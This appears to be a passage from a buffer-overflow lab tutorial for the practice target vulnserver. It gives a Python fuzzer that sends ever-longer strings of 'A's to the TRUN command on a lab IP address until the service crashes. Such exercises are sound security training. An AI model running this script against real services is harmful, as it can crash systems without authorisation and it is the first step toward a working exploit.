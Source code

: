 ## Fuzzing

> Creating a script to fuzz into the target and crash vulnserver

*fuzzer.py*
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

host = '172.16.10.101'
port = 9999
buffer = memoryview(("A" * 100).encode())


def fuzzer(host, port, buffer):

        # Access the memory and decode to ascii
        buffer = buffer.tobytes().decode()

        while True:
                try:
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((host, port))
						
						# Sending A's to TRUN and overflowing buffer
                        s.send(('TRUN /.:/' + buffer).encode('ascii'))
                        s.close()
                        sleep(1)
                        buffer += "A" * 100
                        print("Fuzzing at %s bytes" % str(len(buffer)))

                except:
                        print("Fuzzer crashed at %s bytes" % str(len(buffer)))
                        sys.exit()



if __name__ == '__main__':
        fuzzer(host, port, buffer)
```

